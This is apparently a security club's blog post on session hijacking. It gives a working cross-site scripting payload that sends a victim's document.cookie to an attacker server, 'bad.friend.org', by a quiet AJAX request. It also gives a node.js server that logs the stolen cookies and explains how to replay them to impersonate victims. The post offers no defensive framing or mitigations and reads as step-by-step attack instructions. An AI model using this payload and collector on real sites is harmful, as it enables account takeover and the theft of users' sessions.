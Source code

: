```yaml
---
layout: post
title: Session Hijacking
subtitle: Week 19 - data theft over the Internet
tags: [web, node]
---
```


Previously, we have demonstrated how to use [ARP poison](https://github.com/twlinux/club/wiki/Man-in-the-Middle-(MitM)-Attack-%E2%80%93-ARP-Poisoning) attacks to compromise unencrypted communication on local area networks (LAN). The attacks described below are effective over HTTPS traffic from external networks.

<center>
<iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/T1QEs3mdJoc" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
</center>

# Cookie Stealing

First, you must create an entry point on the vulnerable website with cross-site scripting. Force clients to establish a connection with your server.

## JavaScript Injection

For the code snippet below, we assume your server is accessible at the domain `bad.friend.org`. This is an example of an **AJAX** request, which is unlikely to be noticed by victims.

{% highlight javascript linenos %}

let yourCookie = encodeURI(document.cookie);
url = `http://bad.friend.org/gimmie?yourCookies=${yourCookie}`;

let xhr = new XMLHttpRequest();
xhr.open('GET', url, true);
xhr.send();

{% endhighlight %}

## Basic node.js Server

This is a minimal node.js server that prints HTTP request parameters to standard output.

{% highlight javascript linenos %}

const http = require('http');

http.createServer((req, res) => {

  let i = req.url.indexOf('?');
  if (i !== -1)
    console.log(req.connection.remoteAddress + ' ' + req.url.substring(i));

  res.end('thanks buddy\n');
}).listen(process.env.PORT || 8125);

{% endhighlight %}

You can impersonate victims by spoofing their unique cookie. The Chrome extension [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg) is easy to use.

## Alternative Approaches

Your situation might constrain the available options. More examples are available on [Github](https://github.com/twlinux/lets-talk/tree/master/examples).

